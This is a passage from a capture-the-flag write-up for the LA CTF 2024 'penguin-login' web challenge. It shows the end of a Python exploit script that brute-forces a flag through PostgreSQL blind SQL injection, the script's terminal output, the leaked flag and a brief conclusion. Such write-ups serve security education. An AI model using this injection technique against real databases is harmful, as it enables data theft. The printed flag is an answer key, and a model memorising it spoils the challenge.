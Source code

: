 ```python
                    break

                if isFailed:
                    continue

                leakedFlag += character
                break

        isLeakedSuccessfully = False
        if len(formattedFlag) != flagStringLength:
            return isLeakedSuccessfully, formattedFlag

        isLeakedSuccessfully = True
        return isLeakedSuccessfully, formattedFlag

if __name__ == '__main__':
    baseUrl = 'https://penguin.chall.lac.tf'
    exploit = Exploit(baseUrl)

    print('[*] Leaking the flag string length...')
    flagStringLength = exploit.leakFlagStringLength()
    if not flagStringLength:
        print('\n[-] Unable to find the correct flag string length')
        exit(0)

    print(f'\n[+] We found the correct flag string length: {flagStringLength}')

    print('[*] Leaking the flag...')
    isLeakedSuccessfully, formattedFlag = exploit.leakFlagData(flagStringLength)
    if not isLeakedSuccessfully:
        print(f'\n[-] The leaked flag length is not the same as the flag string length ({flagStringLength}). Leaked flag: {formattedFlag}')
        exit(0)

    print(f'\n[+] The flag has been fully leaked! Flag: {formattedFlag}')
```

```shell
┌[siunam♥Mercury]-(~/ctf/LA-CTF-2024/web/penguin-login)-[2024.02.19|21:43:59(HKT)]
└> python3 exploit.py
[*] Leaking the flag string length...
[*] Length 4 returned boolean value True, but the length is same as the database's penguin name "peng"
[*] Length 7 returned boolean value True, but the length is same as the database's penguin name "emperor"
[*] Finding flag string length | Current length: 45
[+] We found the correct flag string length: 45
[*] Leaking the flag...
[*] Brute forcing character "0" | Current leaked flag: lactf{90stgr35_3s_n0t_l7k3_th3_0th3r_dbs_0w}
[+] The flag has been fully leaked! Flag: lactf{90stgr35_3s_n0t_l7k3_th3_0th3r_dbs_0w0}
```

- **Flag: `lactf{90stgr35_3s_n0t_l7k3_th3_0th3r_dbs_0w0}`**

## Conclusion

What we've learned:

1. PostgreSQL Blind-based SQL injection with conditional responses and filter bypass